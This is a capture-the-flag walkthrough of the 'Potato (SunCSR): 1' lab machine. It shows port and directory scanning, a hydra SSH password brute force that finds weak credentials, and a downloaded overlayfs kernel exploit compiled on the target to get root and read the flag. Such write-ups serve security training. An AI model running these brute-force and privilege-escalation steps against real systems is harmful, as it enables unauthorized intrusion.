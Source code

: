 # Potato (SunCSR): 1

* Name: Potato (SunCSR): 1
* Date release: 14 Sep 2020
* Author: SunCSR Team
* Series: Potato (SunCSR)
* Difficulty: Easy to Medium
* Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)
* Goal: Get the root shell i.e.(`root@localhost:~#`) and then obtain flag under `/root`).

# Services enumeration

Nmap discovers 2 running services (provided you run a full scan with the `-p-` flag). SSH is running on a non standard port (`7120`).

~~~
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Potato
7120/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b1:a8:49:bc:75:01:97:10:da:6a:fa:79:2f:12:41:30 (DSA)
|   2048 0d:6c:93:2a:1b:6c:10:bb:d4:01:4d:9c:42:34:36:df (RSA)
|   256 fc:96:d8:e5:a7:aa:d2:46:9b:00:bd:f2:be:45:cf:b5 (ECDSA)
|_  256 e3:b0:57:45:d3:83:44:45:af:3a:99:94:f8:25:a4:6c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

# Web enumeration

Enumerating the web directory took me some time as I tried several dicionaries, without success.

~~~
kali@kali:/data/Potato_1$ gobuster dir -u http://potato.box -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://potato.box
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/22 07:44:35 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/info.php (Status: 200)
===============================================================
2020/09/22 07:44:40 Finished
===============================================================
~~~

# SSH (7120)

Left without any other ideas, I decided to run a brute force account against a presumed `potato` account.

~~~
kali@kali:/data/Potato_1$ hydra -l potato -P /usr/share/wordlists/rockyou.txt ssh://potato.box:7120 -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-22 08:00:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://potato.box:7120/
[7120][ssh] host: potato.box   login: potato   password: letmein
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 57 final worker threads did not complete until end.
[ERROR] 57 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-22 08:01:28
~~~

This option was probably the right way to go, as hydra quickly found valid credentials: `potato:letmein`. Let's connect:

~~~
kali@kali:/data/Potato_1$ ssh potato@potato.box -p 7120
potato@potato.box's password: 
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
Last login: Tue Sep  8 02:04:57 2020 from 192.168.17.172
potato@ubuntu:~$ id
uid=1000(potato) gid=1000(potato) groups=1000(potato),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),110(sambashare)
~~~

# Privesc

The target is running a very old version of Linux, with a vulnerable kernel:

~~~
potato@ubuntu:~$ uname -a
Linux ubuntu 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
~~~

This leaves room for working exploits:

~~~
kali@kali:/data/src$ searchsploit ubuntu 3.13
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pr | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pr | linux/local/37293.txt
Linux Kernel 3.13/3.14 (Ubuntu) - 'splice()' System Call Local Denial of Service   | linux/dos/36743.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Priv | linux_x86-64/local/31347.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_X86_X32' Arbitrary Write (2)    | linux/local/31346.c
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free               | linux/dos/43234.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation      | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation             | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privi | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escala | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Lo | linux/local/47169.c
Ubuntu < 15.10 - PT Chown Arbitrary PTs Access Via User Namespace Privilege Escala | linux/local/41760.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:/data/src$ searchsploit -m 37292
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines, with CRLF line terminators

Copied to: /data/src/37292.c

kali@kali:/data/src$ scp -P 7120 37292.c potato@potato.box:
potato@potato.box's password: 
37292.c
~~~

Now, on the target, let's compile and run the exploit:

~~~
potato@ubuntu:~$ gcc -o root 37292.c 
potato@ubuntu:~$ ./root 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),110(sambashare),1000(potato)
~~~

# Root flag

~~~
# cd /root
# ls -la
total 24
drwx------  2 root root 4096 Sep  8 02:05 .
drwxr-xr-x 22 root root 4096 Sep  7 00:30 ..
-rw-------  1 root root  108 Sep  8 02:05 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-r--r--  1 root root   52 Sep  8 01:45 proof.txt
# cat proof.txt
SunCSR.Team.Potato.af6d45da1f1181347b9e2139f23c6a5b
~~~